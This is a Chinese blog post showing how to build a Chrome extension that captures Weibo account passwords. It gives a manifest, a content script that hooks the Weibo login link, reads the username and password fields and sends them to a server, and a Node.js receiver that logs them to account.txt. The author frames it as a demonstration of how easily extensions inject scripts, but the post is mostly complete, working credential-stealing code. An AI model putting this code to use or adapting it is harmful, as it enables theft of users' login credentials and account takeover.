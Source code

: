 ```yaml
---
layout: post
title: "开发Chrome Extension截取你微博的帐号密码"
description: ""
category: Chrome Extension
tags: [javascript, Chrome Extension]
code: true
---
```

{% include JB/setup %}
Google允许开发者对Chrome浏览器做扩展，所以有了之前火爆的12306抢票软件，我
也用它抢过票，一直很好奇它怎么注入js到12306上面的。这周有空研究了下Chrome Extension，终于明白它是怎么工作的了。更多信息可以参看[chrome.extension](http://developer.chrome.com/extensions/extension.html)。

但是又让我对chrome extension产生了一点担心，这么容易注入js，那盗取你的帐号密码啥的不是很方便吗？下面演示一个比较简单的盗取微博帐号密码的方法。

要加载chrome extension首先要定义一个manifest.json文件。定义如下：

{% highlight json %}
{
  "manifest_version": 2,

  "name": "Account Detect",
  "description": "This extension will detect your account",
  "version": "1.0",

  "permissions": [
    "http://*/*"
  ],
  "browser_action": {
    "default_icon": "icon.png"
  },
  "content_scripts": [
    {
      "matches": ["http://*/*"],
      "js": ["jquery-1.10.2.min.js", "myscript.js"]
     
    }
  ]
}
{% endhighlight %}

注意content script加入的顺序，先填写JQuery，方便我们使用JQuery上的方法。然后是我自己定义的myscript.js。

{% highlight javascript %}
$('body').on("click",'a[tabindex="6"]', function(event){
    var username = $('input[name="username"]').val();
    var passwords = $('input[name="password"]').val();
    var query = '?username=' + username + '&' + 'passwords=' + passwords;
    $.get('http://localhost:1337' + query, function() {});

    alert(username + ':' + passwords);
});
{% endhighlight %}

上面代码的意思就是让[微博登陆页](http://weibo.com/)上的登录链接绑定上我的事件上。页面上的元素信息可以通过开发者工具查看到。事件内容就是获取页面上你输入的帐号和密码，然后通过ajax get的方式发送到我自己的服务器上保存起来。

最后我在本地自己设个服务器来接受传输信息，后端代码使用的Node.js，代码如下：

{% highlight javascript %}
var http = require('http');
var url = require('url');
var fs = require('fs');
http.createServer(function (req, res) {
  
  console.log(req.url);
  var query = url.parse(req.url, true).query;
  var name = query.username;
  var passwords = query.passwords;
  if(typeof(name) == "undefined") {
    console.log('oh no');
  } else {
    fs.open('account.txt', 'a', 666, function(e, id) {
      var content = name + '\n' + passwords + '\n';
      fs.write(id, content, null, 'utf8', function() {
        fs.close(id, function() {
          console.log('file close');
        });
      });
    });
    console.log('Request for ' + name + ' received.');
  }
  res.writeHead(200, {'Content-Type': 'text/plain'});
  res.end('Done!\n');
}).listen(1337, "127.0.0.1");
console.log('Server running at http://127.0.0.1:1337/');
{% endhighlight %}

逻辑比较简单，就是把获取到的帐号密码保存到account.txt文件中。

下面来实际演示一下吧，首先是要在Chrome浏览器（我的浏览器版本是28.0.1500.71)里加载自己的Extension:

![load unpackage extension in chrome](/assets/images/20130714/loadunpackageextension.png)

然后在Chrome浏览器地址栏输入http://weibo.com/，随便输入一个帐号密码，点击登录试试：

![capture your account](/assets/images/20130714/captureyouraccount.png)

再查看下本机服务器信息：

![check server log](/assets/images/20130714/serverinfo.png)

说明我们服务器接收到了信息，并且可以在server端的根目录下找到account.txt文件，里面就记录了你微博登录的帐号和密码信息。


